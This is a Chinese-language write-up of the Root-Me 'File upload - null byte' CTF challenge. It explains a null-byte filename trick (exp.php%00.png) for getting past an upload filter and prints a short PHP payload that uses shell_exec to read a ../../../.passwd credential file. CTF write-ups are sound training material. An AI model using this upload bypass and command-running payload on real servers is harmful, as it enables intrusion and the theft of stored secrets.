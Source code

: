 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - null byte](https://www.root-me.org/en/Challenges/Web-Server/File-upload-null-byte)] [[解题报告](http://exp-blog.com/2019/01/14/pid-2995/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】、【[Web-Server : File upload - MIME type](http://exp-blog.com/2019/01/13/pid-2987/)】的渗透思路是一样的，区别在于之前的两种绕过方式均被封锁了。

这次提示的绕过方式是空字节漏洞 null byte ，依然在文件名上做文章，构造 payloads 文件 `exp.php%00.png`：

```php
<?php
	// exp.php%00.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

此文件名在上传时，可以在前端后缀欺骗，而后端在读取时遇到 `%00` 空字节会截断后面部分。

上传成功后获得 `exp.php%00.png` 文件的完整 URI，手工去掉末尾的 `%00.png` 后拼接到 URL，即可获得密码，完成挑战。


![](http://exp-blog.com/wp-content/uploads/2019/01/efd52fe863e3a5389f0a2733c29b7adc.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
